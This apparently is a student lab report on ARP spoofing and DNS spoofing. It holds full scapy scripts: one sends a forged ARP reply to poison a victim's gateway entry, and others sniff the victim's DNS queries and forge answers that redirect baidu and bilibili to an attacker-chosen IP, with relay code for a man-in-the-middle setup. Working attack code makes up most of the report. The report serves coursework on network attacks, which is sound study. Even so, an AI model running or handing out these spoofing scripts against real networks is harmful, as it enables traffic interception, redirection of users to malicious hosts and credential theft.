

**Coverage**   	ARP spoofing, DNS spoofing<br />**Due** 		March 25, 2022


### ARP Spoofing
We use `scapy`to achieve ARP spoofing.<br />First, we check the IP address and gateway of the victim:

Then we can write the code with the tips (members of the `Ether` and `ARP` classes) below:

The code is:
```python
from scapy.all import *

eth = Ether(src='00:0c:29:c6:be:84', dst='ff:ff:ff:ff:ff:ff')
arp = ARP(hwsrc='00:0c:29:c6:be:84', psrc='192.168.248.228', hwdst='00:00:00:00:00:00', pdst='192.168.248.16')
# hwsrc - hardware src (src MAC addr), psrc - protocol src (src IP addr)
srp(eth/arp)
```
The Ethernet frame has the src `00:0c:29:c6:be:84`, which is the MAC address of the attacker; The dst is `ff:ff:ff:ff:ff:ff`, which is the boardcast MAC address.

In the ARP packet, the hwsrc (hardware src) is also `00:0c:29:c6:be:84`, and the attacker declare that it has the IP address (psrc, protocol src)`192.168.248.228`, which is the default gateway of the victim. The hwdst is `00:00:00:00:00:00`as the ARP packet know nothing about the MAC address of the victim. The pdst is the IP address of the victim, so the victim will answer this ARP packet.

Function `srp()` is used for sending packets and receiving answers.

We can run the code, and check the ARP table of the victim before and after the progress:


We can see that the ARP spoofing succeeded.


### DNS Spoofing
We check the structure of UDP and DNS packets:

And we can write the code below:
```python
from struct import pack
from xdrlib import Packer
from scapy.all import *
import sys

dns_hosts = {
    b"www.baidu.com.": "8.136.83.180",
    b"www.bilibili.com.": "8.136.83.180",
}
victimip = '192.168.248.16'
real_dns_mac = '5e:d5:61:82:f0:30'
gateway = '192.168.248.228'

# dns包 = Ether()/IP()/UDP()/DNS(id,qr,opcode,rd，qd=DNSQR(qnname=dns_name), verbose=False) 
# id标识 匹配请求与回应 qr 0表示查询报文 opcode 0表示标准查询 rd 1表示递归

def DNS_Spoof(data):
    try:
        print(data.summary())
        if data.haslayer(DNSQR) and data[DNS].qd.qname in dns_hosts.keys():
            print("[Query]:\t",data.summary())

            request_eth = data
            eth = Ether(src = data.dst, dst = data.src)
            
            request_ip = request_eth.payload
            ip = IP(src = gateway, dst = request_ip.src)
            
            request_udp = request_ip.payload
            udp = UDP(sport = request_udp.dport, dport = request_udp.sport)
            
            request_dns = request_udp.payload
            dns = DNS(id = request_dns.id, qr = 1, qd = request_dns.qd, ra = 1, 
            	      an = DNSRR(rrname=request_dns.qd.qname, 
            	      		rdata=dns_hosts[request_dns.qd.qname], ttl = 10))
            
            
            packet = eth/ip/udp/dns
            
            # Craft a response to the request 
            # Be careful about the src and dst 
            # Wireshark is a good tool to debug your script
            print("[Response]\t",packet.summary())
            sendp(packet)
        else:
            pass # 可以写一个转发到真实dns server的功能
    except Exception as e:
        pass


def DNS_S(iface):
    # count	需要捕获的包的个数，0 代表无限
    # store	是否需要存储捕获到的包
    # filter	指定嗅探规则过滤，遵循 BPF （伯克利封包过滤器）
    # timeout	指定超时时间
    # iface	指定嗅探的网络接口或网络接口列表，默认为 None，即在所有网络接口上嗅探
    # prn	传入一个可调用对象，将会应用到每个捕获到的数据包上，如果有返回值，那么它不会显示
    # offline	从 pcap 文件读取包数据而不是通过嗅探的方式获得
    #sniff(prn=DNS_Spoof,filter="udp and src net {}".format(victimip),iface=iface)
    sniff(prn=DNS_Spoof,filter=f"src net {victimip} and not arp",iface=iface)


if __name__ == '__main__':
    DNS_S('')
```
We try to PING the 2 websites, and we can get the IP address `8.136.83.180`, which shows that the DNS Spoofing was successful:


### Go deeper?

But we can also see that when we ping a different website like `www.yuque.com`, the DNS responds nothing. So we try to relay the requests on other websites to the real gateway:
```python
def DNS_Spoof(data):
    try:
        print(data.summary())
        if data.haslayer(DNSQR) and data[DNS].qd.qname in dns_hosts.keys():
            # same to dns_spoof.py
        else:
            if data.haslayer(Ether) and data[Ether].dst == '00:0c:29:c6:be:84':
            	data.dst = real_dns_mac
            	data.src = '00:0c:29:c6:be:84'
            sendp(data)
```
And the victim can get the IP address of other websites correctly:


Furthermore, we can find that the victim cannot actually access the websites, _maybe_ because that scapy cannot sniff TCP packets well, as my logs have only UDP packets in it. I tried for several hours but I can't find the problem. 

This is the final code I used, where I try to give the victim a wrong gateway, which the attacker pretend to be, so that the attacker can use the real gateway. But it turned out in vain.
```python
from struct import pack
from xdrlib import Packer
from scapy.all import *
import sys

dns_hosts = {
    b"www.baidu.com.": "8.136.83.180",
    b"www.bilibili.com.": "8.136.83.180",
}
victimip = '192.168.248.16'
real_dns_mac = '5e:d5:61:82:f0:30'
gateway = '192.168.248.229'

# dns包 = Ether()/IP()/UDP()/DNS(id,qr,opcode,rd，qd=DNSQR(qnname=dns_name), verbose=False) 
# id标识 匹配请求与回应 qr 0表示查询报文 opcode 0表示标准查询 rd 1表示递归

def DNS_Spoof(data):
    try:
        print(data.summary())
        if data.haslayer(DNSQR) and data[DNS].qd.qname in dns_hosts.keys():
            print("[Query]:\t",data.summary())

            request_eth = data
            #eth = Ether(src = '00:0c:29:c6:be:84', dst = 'ff:ff:ff:ff:ff:ff')
            eth = Ether(src = data.dst, dst = data.src)
            print(eth.src)
            
            request_ip = request_eth.payload
            ip = IP(src = gateway, dst = request_ip.src)
            
            request_udp = request_ip.payload
            udp = UDP(sport = request_udp.dport, dport = request_udp.sport)
            
            request_dns = request_udp.payload
            dns = DNS(id = request_dns.id, qr = 1, qd = request_dns.qd, ra = 1, 
            	      an = DNSRR(rrname=request_dns.qd.qname, 
            	      		rdata=dns_hosts[request_dns.qd.qname], ttl = 10))
            
            
            packet = eth/ip/udp/dns
            
            # Craft a response to the request 
            # Be careful about the src and dst 
            # Wireshark is a good tool to debug your script
            print("[Response]\t",packet.summary())
            sendp(packet)
        else:
            # pass # 可以写一个转发到真实dns server的功能
            if data.haslayer(Ether) and data[Ether].dst == '00:0c:29:c6:be:84':
            	data.dst = data.src #real_dns_mac
            	data.src = '00:0c:29:c6:be:84'
            	if data.haslayer(IP):
            		if data[IP].dst == '192.168.248.229':
            			data[IP].dst = '192.168.248.228'
            		print("[Relay]\t", data[IP].src, data[IP].dst, data.summary())
            #else:
            	#print(data.summary())
            sendp(data)
            
    except Exception as e:
    	#print("[Error]\t", e)
    	if data.haslayer(Ether) and data[Ether].dst == '00:0c:29:c6:be:84':
    		data.dst = data.src #real_dns_mac
    		data.src = '00:0c:29:c6:be:84'
    		if data.haslayer(IP):
    			if data[IP].dst == '192.168.248.229':
            			data[IP].dst = '192.168.248.228'
    			print("[Relay]\t", data[IP].src, data[IP].dst, data.summary())
    	#else:
    		#print(data.summary())
    	sendp(data)


def DNS_S(iface):
    # count	需要捕获的包的个数，0 代表无限
    # store	是否需要存储捕获到的包
    # filter	指定嗅探规则过滤，遵循 BPF （伯克利封包过滤器）
    # timeout	指定超时时间
    # iface	指定嗅探的网络接口或网络接口列表，默认为 None，即在所有网络接口上嗅探
    # prn	传入一个可调用对象，将会应用到每个捕获到的数据包上，如果有返回值，那么它不会显示
    # offline	从 pcap 文件读取包数据而不是通过嗅探的方式获得
    #sniff(prn=DNS_Spoof,filter="udp and src net {}".format(victimip),iface=iface)
    sniff(prn=DNS_Spoof,filter=f"src net {victimip} and not arp",iface=iface)


if __name__ == '__main__':
    DNS_S('')
```


I found several articals on DNS spoofing, but it turns out that, in most of them the attacker is not pretending to be the gateway, but a man in the middle instead. In this method, the attacker can just give the wrong DNS message when in need, and use the regular function of the gateway in other cases.
